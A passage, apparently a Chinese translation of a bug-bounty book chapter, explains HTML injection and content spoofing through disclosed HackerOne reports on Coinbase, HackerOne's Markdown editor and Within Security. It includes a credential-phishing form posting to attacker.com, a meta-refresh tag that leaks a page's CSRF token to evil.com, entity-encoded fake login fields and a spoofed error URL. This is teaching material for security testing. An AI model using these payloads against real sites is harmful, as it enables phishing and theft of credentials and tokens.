

## 第五章：HTML 注入与内容欺骗**


*超文本标记语言（HTML）注入*和*内容欺骗*是允许恶意用户向网站的网页中注入内容的攻击。攻击者可以注入自己设计的 HTML 元素，最常见的是`<form>`标签，它模仿合法的登录界面，诱骗目标将敏感信息提交到恶意网站。由于这些类型的攻击依赖于欺骗目标（这种做法有时被称为*社会工程学*），漏洞奖励计划将内容欺骗和 HTML 注入视为比本书中涵盖的其他漏洞更不严重。

当一个网站允许攻击者提交 HTML 标签，通常通过某些表单输入或 URL 参数，然后直接在网页上渲染时，就会发生 HTML 注入漏洞。这类似于跨站脚本攻击，区别在于这些注入允许执行恶意 JavaScript，我将在第七章中讨论。

HTML 注入有时被称为*虚拟篡改*。这是因为开发人员使用 HTML 语言定义网页的结构。所以如果攻击者能够注入 HTML 并且网站渲染它，攻击者就可以改变页面的外观。这种通过假表单诱骗用户提交敏感信息的技巧被称为*钓鱼*。

例如，如果一个页面渲染了你可以控制的内容，你可能能够向页面添加一个`<form>`标签，要求用户重新输入他们的用户名和密码，如下所示：

```
➊ <form method='POST' action='http://attacker.com/capture.php' id='login-form'>

      <input type='text' name='username' value=''>

      <input type='password' name='password' value=''>

      <input type='submit' value='submit'>

   </form>
```

当用户提交此表单时，信息通过`action`属性 ➊发送到攻击者的网站 *http://<attacker>.com/capture.php*。

内容欺骗与 HTML 注入非常相似，区别在于攻击者只能注入纯文本，而不能注入 HTML 标签。此限制通常是由于网站要么会对包含的 HTML 进行转义，要么在服务器发送 HTTP 响应时会去除 HTML 标签。尽管攻击者无法通过内容欺骗格式化网页，但他们可能能够插入看似合法网站内容的文本，例如一条信息。这些信息可能会欺骗目标执行某个操作，但在很大程度上依赖于社会工程学。以下示例展示了如何发现这些漏洞。

### 通过字符编码的 Coinbase 评论注入

**难度:** 低

**网址:** *https://coinbase.com/apps/*

**来源:** *[`hackerone.com/reports/104543/`](https://hackerone.com/reports/104543/)*

**报告日期:** 2015 年 12 月 10 日

**奖励支付:** $200

一些网站会过滤掉 HTML 标签来防御 HTML 注入攻击；然而，有时你可以通过理解 HTML 字符实体的工作原理来绕过这一限制。对于这个漏洞，报告者发现 Coinbase 在渲染用户评论中的文本时会解码 HTML 实体。在 HTML 中，一些字符是 *保留的*，因为它们有特殊用途（比如尖括号 `< >`，用来表示 HTML 标签的开始和结束），而 *非保留字符* 是没有特殊意义的普通字符（如字母）。保留字符应该使用它们的 HTML 实体名称渲染；例如，字符 `>` 应该被网站渲染为 `&gt;`，以避免注入漏洞。但即使是非保留字符，也可以通过其 HTML 编码的数字来渲染；例如，字母 `a` 可以渲染为 `&#97;`。

对于这个漏洞，报告者首先将纯 HTML 输入到一个用于用户评论的文本框中：

```
<h1>This is a test</h1>
```

Coinbase 会过滤 HTML 并将其渲染为纯文本，因此提交的文本将作为正常评论发布。它会看起来和输入时一样，只是移除了 HTML 标签。然而，如果用户将文本以 HTML 编码值的形式提交，比如这样：

```
&#60;&#104;&#49;&#62;&#84;&#104;&#105;&#115;&#32;&#105;&#115;&#32;&#97;&#32;&#

116;&#101;&#115;&#116;&#60;&#47;&#104;&#49;&#62;
```

Coinbase 不会过滤这些标签，并且会将该字符串解码为 HTML，导致网站在提交的评论中渲染 `<h1>` 标签：

**这是一个测试**

通过使用 HTML 编码值，报告的黑客展示了他是如何让 Coinbase 渲染用户名和密码字段的：

```
&#85;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#58;&#60;&#98;&#114;&#62;&#10;&

#60;&#105;&#110;&#112;&#117;&#116;&#32;&#116;&#121;&#112;&#101;&#61;&#34;&#116

;&#101;&#120;&#116;&#34;&#32;&#110;&#97;&#109;&#101;&#61;&#34;&#102;&#105;&#11

4;&#115;&#116;&#110;&#97;&#109;&#101;&#34;&#62;&#10;&#60;&#98;&#114;&#62;&#10;

&#80;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#58;&#60;&#98;&#114;&#62;&#10;&

#60;&#105;&#110;&#112;&#117;&#116;&#32;&#116;&#121;&#112;&#101;&#61;&#34;&#112

;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#34;&#32;&#110;&#97;&#109;&#101;&#6

1;&#34;&#108;&#97;&#115;&#116;&#110;&#97;&#109;&#101;&#34;&#62;
```

这将导致 HTML 看起来如下所示：

```
Username:<br>

<input type="text" name="firstname">

<br>

Password:<br>

<input type="password" name="lastname">
```

这渲染成了看起来像是输入用户名和密码登录的文本输入表单。恶意黑客可能利用这个漏洞欺骗用户将实际表单提交到恶意网站，从而窃取凭证。然而，这个漏洞依赖于用户被误导相信登录是假的并提交他们的信息，而这并不是必然的。因此，Coinbase 对该漏洞给予的奖励较低，相比之下，那些不需要用户交互的漏洞奖励金额更高。

#### *总结*

当你测试一个网站时，检查它如何处理不同类型的输入，包括纯文本和编码文本。注意检查那些接受 URI 编码值（如 `%2F`）并渲染其解码值的网站，在这种情况下，解码值将是 `/`。

你可以在 *[`gchq.github.io/CyberChef/`](https://gchq.github.io/CyberChef/)* 找到一个很棒的瑞士军刀工具，其中包括编码工具。查看一下，试试它支持的各种编码类型。

### HackerOne 意外的 HTML 插入

**难度：** 中等

**网址：** *https://hackerone.com/reports/<report_id>/*

**来源：** *[`hackerone.com/reports/110578/`](https://hackerone.com/reports/110578/)*

**报告日期：** 2016 年 1 月 13 日

**奖励金额：** 500 美元

这个示例和接下来的部分需要了解 Markdown、悬挂单引号、React 和文档对象模型（DOM），所以我会首先介绍这些主题，然后再讨论它们如何导致两个相关的漏洞。

*Markdown* 是一种标记语言，使用特定的语法生成 HTML。例如，Markdown 会接受并解析以井号符号（`#`）为前缀的纯文本，将其转换为格式化为头部标签的 HTML。标记 `# Some Content` 会生成 HTML `<h1>Some Content</h1>`。开发人员常常在网站编辑器中使用 Markdown，因为它是一种易于使用的语言。此外，在允许用户提交输入的站点上，开发人员不需要担心 HTML 格式错误，因为编辑器会为他们处理 HTML 的生成。

我将在这里讨论的 bug 利用了 Markdown 语法生成了一个带有 `title` 属性的 `<a>` 锚标签。通常，这种语法是：

```
[test](https://torontowebsitedeveloper.com "Your title tag here")
```

方括号之间的文本变成了显示文本，链接的网址包含在括号内，并带有一个 `title` 属性，该属性被包含在一对双引号中。这种语法会生成以下 HTML：

```
<a href="https://torontowebsitedeveloper.com" title="Your title tag here">test</a>
```

2016 年 1 月，漏洞猎人 Inti De Ceukelaire 注意到 HackerOne 的 Markdown 编辑器配置错误；因此，攻击者可以将一个悬挂的单引号注入到 Markdown 语法中，这个引号会包含在生成的 HTML 中，任何使用 Markdown 编辑器的地方都会受到影响。漏洞赏金计划管理页面以及报告都存在漏洞。这是非常重要的：如果攻击者能够在管理页面找到第二个漏洞，并将第二个悬挂引号注入到页面开头的 `<meta>` 标签中（无论是通过注入 `<meta>` 标签，还是找到 `<meta>` 标签中的注入点），他们就可以利用浏览器的 HTML 解析功能泄露页面内容。原因是 `<meta>` 标签告诉浏览器通过标签的 `content` 属性中定义的 URL 刷新页面。渲染页面时，浏览器会对指定的 URL 执行 `GET` 请求。页面中的内容可以作为 `GET` 请求的参数发送，攻击者可以利用这些信息来提取目标的数据。以下是一个带有注入单引号的恶意 `<meta>` 标签可能的样子：

```
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

`0` 定义了浏览器在发起 HTTP 请求之前等待的时间。在这种情况下，浏览器会立即向 *https://evil.com/log.php?text=* 发起 HTTP 请求。HTTP 请求将包含从 `content` 属性开始的单引号之间的所有内容，以及攻击者通过网页上的 Markdown 解析器注入的单引号。以下是一个示例：

```
<html>

  <head>

    <meta http-equiv="refresh" content=➊'0; url=https://evil.com/log.php?text=

  </head>

  <body>

    <h1>Some content</h1>

    --snip--

    <input type="hidden" name="csrf-token" value= "ab34513cdfe123ad1f">

    --snip--

    <p>attacker input with '➋ </p>

    --snip--

  </body>

</html>
```

从 `content` 属性后的第一个单引号到攻击者输入的单引号（➊ 到 ➋）之间的页面内容将作为 URL 的 `text` 参数发送给攻击者。还将包括来自隐藏输入字段的敏感跨站请求伪造（CSRF）令牌。

通常情况下，HTML 注入的风险对于 HackerOne 来说并不会成为问题，因为它使用 React JavaScript 框架来渲染 HTML。React 是一个由 Facebook 开发的库，旨在动态更新网页内容，而无需重新加载整个页面。使用 React 的另一个好处是，框架会转义所有 HTML，除非使用 JavaScript 函数`dangerouslySetInnerHTML`直接更新 DOM 并渲染 HTML（*DOM*是一个用于 HTML 和 XML 文档的 API，允许开发者通过 JavaScript 修改网页的结构、样式和内容）。事实证明，HackerOne 使用了`dangerouslySetInnerHTML`，因为它信任从服务器接收到的 HTML；因此，它直接将 HTML 注入到 DOM 中而没有进行转义。

尽管 De Ceukelaire 无法利用该漏洞，他确实识别出一些页面，能够在 HackerOne 渲染 CSRF 令牌后注入单引号。因此，概念上，如果 HackerOne 在未来进行代码更改，允许攻击者在同一页面的`<meta>`标签中注入另一个单引号，攻击者可能会窃取目标的 CSRF 令牌并执行 CSRF 攻击。HackerOne 同意了这一潜在风险，解决了报告，并奖励 De Ceukelaire 500 美元。

#### *主要收获*

理解浏览器如何渲染 HTML 以及如何响应某些 HTML 标签的细微差别，能够揭示出广泛的攻击面。虽然并非所有程序都会接受关于潜在理论性攻击的报告，但这些知识将帮助你发现其他漏洞。FileDescriptor 对于`<meta>`刷新漏洞有很好的解释，详细内容可以参考 *[`blog.innerht.ml/csp-2015/#contentexfiltration`](https://blog.innerht.ml/csp-2015/#contentexfiltration)*，我强烈推荐你查看一下。

### HackerOne 意外 HTML 包含修复绕过

**难度：** 中等

**URL：** *https://hackerone.com/reports/<report_id>/*

**来源：** *[`hackerone.com/reports/112935/`](https://hackerone.com/reports/112935/)*

**报告日期：** 2016 年 1 月 26 日

**支付赏金：** 500 美元

当一个组织创建修复并解决报告时，功能并不总是能完全修复。阅读了 De Ceukelaire 的报告后，我决定测试 HackerOne 的修复，看其 Markdown 编辑器如何渲染意外输入。为了做到这一点，我提交了以下内容：

```
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss"

  yyy="test"")
```

回想一下，为了在 Markdown 中创建锚点标签，通常需要提供一个 URL 和一个用双引号括起来的`title`属性。为了解析`title`属性，Markdown 需要跟踪开头的双引号、其后的内容以及结束的引号。

我好奇是否能通过添加额外的随机双引号和属性来混淆 Markdown，看看它是否会错误地开始追踪这些内容。这就是我添加 `ismap=`（一个有效的 HTML 属性）、`yyy=`（一个无效的 HTML 属性）和额外双引号的原因。在提交这个输入后，Markdown 编辑器将代码解析成了以下 HTML：

```
<a title="test" ismap="alert xss" yyy="test" ref="http://

  www.toronotwebsitedeveloper.com">test</a>
```

请注意，De Ceukelaire 报告中的修复导致了一个意外的 bug，使得 Markdown 解析器生成了任意 HTML。虽然我不能立即利用这个 bug，但包含未经转义的 HTML 已足够作为概念验证，HackerOne 因此撤回了之前的修复，并使用不同的解决方案来修复问题。由于有人能够注入任意 HTML 标签，这可能导致漏洞，因此 HackerOne 向我支付了 500 美元的赏金。

#### *要点*

仅仅因为代码更新并不意味着所有漏洞都已修复。务必测试更改——并且要坚持不懈。当一个修复被部署时，意味着有了新的代码，而这些代码可能包含漏洞。

### 在安全内容欺骗中

**难度：** 低

**URL：** *[`withinsecurity.com/wp-login.php`](https://withinsecurity.com/wp-login.php)*

**来源：** *[`hackerone.com/reports/111094/`](https://hackerone.com/reports/111094/)*

**报告日期：** 2016 年 1 月 16 日

**赏金支付：** 250 美元

*Within Security* 是一个用于分享安全新闻的 HackerOne 网站，建立在 WordPress 上，并在页面 *[withinsecurity.com/wp-login.php](http://withinsecurity.com/wp-login.php)* 中包含了一个标准的 WordPress 登录路径。一位黑客注意到，在登录过程中，如果发生错误，*Within Security* 会渲染一个 `access_denied` 错误消息，这个消息也对应于 URL 中的 `error` 参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

发现这个行为后，黑客尝试修改 `error` 参数。结果，网站将传递给该参数的值渲染为错误消息的一部分，甚至 URI 编码的字符也被解码。以下是黑客使用的修改后的 URL：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20been%20

hacked%2C%20Please%20call%20us%20this%20number%20919876543210%20OR%20Drop%20

mail%20at%20attacker%40mail.com&state=cb04a91ac5%257Chttps%253A%252F%252Fwithi

nsecurity.com%252Fwp-admin%252F#
```

该参数作为错误消息渲染，显示在 WordPress 登录字段的上方。该消息引导用户联系一个攻击者拥有的电话号码和电子邮件。

这里的关键是注意到 URL 中的参数在页面上被渲染。仅仅测试是否能够更改 `access_denied` 参数，就揭示了这个漏洞。

#### *要点*

关注那些传递并作为网站内容渲染的 URL 参数。这些参数可能会成为文本注入漏洞的入口，攻击者可以利用它们来进行钓鱼攻击。网站上可控的 URL 参数有时会导致跨站脚本攻击，我将在第七章中讲解这一内容。其他情况下，这种行为仅会导致影响较小的内容欺骗和 HTML 注入攻击。需要注意的是，尽管这份报告支付了 250 美元，但这只是*Within Security*的最低悬赏金额。并不是所有的漏洞赏金计划都重视或支付 HTML 注入和内容欺骗漏洞的报告，因为类似社交工程的攻击，依赖于目标被注入文本欺骗。



*图 5-1：攻击者能够将这个“警告”注入到 WordPress 管理页面中。*

### 总结

HTML 注入和内容欺骗允许黑客输入信息并使 HTML 页面将这些信息反馈给目标。攻击者可以利用这些攻击手段进行钓鱼，诱使用户访问恶意网站或提交敏感信息。

发现这类漏洞不仅仅是提交普通的 HTML，还涉及探索网站如何渲染你输入的文本。黑客应留意可能通过操控直接渲染在网站上的 URL 参数来寻找漏洞的机会。
